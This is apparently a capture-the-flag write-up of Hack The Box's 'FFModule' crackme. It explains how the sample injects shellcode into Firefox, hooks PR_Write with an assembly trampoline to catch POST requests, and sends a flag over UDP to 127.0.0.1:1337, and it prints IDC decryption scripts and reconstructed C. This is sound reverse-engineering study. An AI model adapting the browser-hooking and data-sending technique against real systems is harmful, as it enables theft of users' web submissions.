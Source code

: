 
# "FFModule" by Hack The Box

It's always fun to solve a challenge without even running a binary file. Sometimes this is necessary because either you don't have the required hardware, OS, or library, or because the challenge has bugs and doesn't work. This crackme is an example of the latter: with my current configuration of Windows 11 + Firefox 124.0.1 it just crashed (of course, if you disable Windows Defender first, otherwise it will be killed beforehand). But in this case, it is enough to use only a disassembler.

This crackme is a classic example of how to inject malicious code into a process, and in particular, an example of how Firefox can be used as a target to steal any data. Again, the problem is that this is a “classic” and an “example”, so it will not work if any mediocre antivirus is installed.

But let’s start from the very beginning: firstly, the injection code itself is “hidden”, so, at the first stage, crackme will “decrypt” the required code and run it. To see this, let's simply execute the following IDC script in IDA:

```c
auto  i,  x;
for  (i  =  get_screen_ea();  i  <  get_screen_ea()  +  0x5A4;  i  =  i  +  1)  {
    x  =  byte(i);
    patch_byte(i,  x  ^  0x72);
}
```

The injection code didn't look too fancy: it iterates through the list of currently running processes and, if its EXE file name is `firefox.exe`, it allocates executable memory in that process, copies the code of the next step code into it, and starts a new thread inside that process which executes this code.

The goal of the second stage is to inject the trampoline into the [Firefox's NSPR](https://firefox-source-docs.mozilla.org/nspr/reference/pr_write.html) `PR_Write` function, which is used to write data to a file descriptor. To do this correctly, the following steps are needed:

1. Firstly, the shellcode (or how should I call it now?) finds the address of the `GetProcAddress` function using the “PEB technique” described everywhere and by everyone, so I won't describe it here again.
2. It then finds the addresses of the `VirtualAlloc` and `VirtualProtect` functions and allocates executable memory to store the part of the original `PR_Write` function that it will modify later.
3. The next step is to find one of the loaded libraries that Firefox uses that contains the `PR_Write` function: the shellcode checks the file `nss3.dll` and two others that I don't know about because it uses the CRC32C value of the filename instead of the raw string. I'm guessing the second one should be `nspr4.dll`, but the hash is different, so that's still a question for me.
4. It gets the address of the `PR_Write` function and copies part of the function into the memory allocated in the second step. What's interesting is that the shellcode copies the required number of bytes until it finds the following byte sequence: `0x003300730073006E`, which (I assume) is the UTF16 string "nss3". Honestly, I don't know why it wouldn't use the exact size here, but it is what it is.
5. The last step is to set the memory protection bits and install the following trampoline:

```assembly
push	r13
push	r12
movabs	r12, PR_write_hook
movabs	r13, unmodified_PR_Write
jmp		r12
int3
```

The third stage is the `PR_write_hook` itself, which fires every time the original function is called. First of all, it checks that the size of the data being sent is at least 5 bytes, and the first four bytes in the sending buffer are `POST`. If so, then the following magic happens:

1. It finds the address of the `GetProcAddress` function using the same code that was used in the second stage.
2. Then, again using the same technique, the shellcode finds the necessary libraries and addresses of the following functions: `WSAStartup`, `socket`, `sendto`, `closesocket` and `WSACleanup`.
3. After the initial preparation (roughly speaking, because this preparation and the logic itself are mixed), the following code is executed:

```c
unsigned char sockaddr[] = {0x02, 0x00, 0x05, 0x39, 0x7f, 0x00, 0x00, 0x01, 0xa0, 0x20};
const char* flag = decrypt_flag(); 
 
WSAStartup(0x202, &wsaData);
SOCKET s = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
sendto(s, flag, 0x20, 0, (SOCKADDR *) sockaddr, sizeof (sockaddr));
closesocket(s);
WSACleanup();
```

To avoid the hassle of deciphering the "host" and "network" byte order, I used the following code to see the destination:

```c
struct sockaddr_in *sin = (struct sockaddr_in *) buffer;
char ip[INET_ADDRSTRLEN];
uint16_t port;

inet_ntop (AF_INET, &sin->sin_addr, ip, sizeof (ip));
port = htons (sin->sin_port);

printf ("%s:%d\n", ip, port);
```

this gave me `127.0.0.1:1337` as a result. So, last question: what is this flag? I would probably cheat at this point and use Wireshark to see it, but as I said at the beginning, in my case, the crackme crashed my Firefox, so I'll have to decrypt it manually. Luckily there was no rocket science, and the following IDC script will do the trick:

```c
auto i, x;

for (i = get_screen_ea(); i < get_screen_ea() + 0x20; i = i + 1) {
	x = byte(i);
	x = rotate_byte(x - 0x13, 3);
	patch_byte(i, x ^ 0x42);
}
```

Sometimes a good disassembler is the only tool you need.

The challenge can be found [here](https://app.hackthebox.com/challenges/FFModule).
